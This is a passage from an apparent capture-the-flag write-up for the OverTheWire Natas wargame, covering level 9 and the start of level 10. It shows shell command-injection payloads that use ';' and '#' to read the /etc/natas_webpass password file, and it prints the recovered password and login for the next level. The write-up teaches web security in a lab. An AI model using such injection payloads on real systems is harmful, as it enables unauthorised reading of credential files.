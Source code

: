 ```
natas_pass
natas_webpass
passwd
```

I have tried to cat file natas_pass but it is blank. Let's move to natas_webpass. I tried to cat it first but it is blank so it may be a directory so I use this command:

```shell
; cd ../../../../ ; cd /etc/ ; cd natas_webpass ; ls #
```

Surprisingly, I can find all the folders/files in this directory /etc/natas_webpass. Then I tried with the payload

```shell
; cd ../../../../ ; cd /etc/ ; cat natas_webpass/natas10 #
```

And here is the result:

![Flag for Natas 9](images/Answer-9.png)

So, the flag I get from the above screenshot is:

```
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```

## Natas 10

The details to login the natas 10 are:

```
Username: natas10
Password: D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
URL:      http://natas10.natas.labs.overthewire.org
```

This challenge is quite similar to the last one, but now they add filter. Let's view the source code:
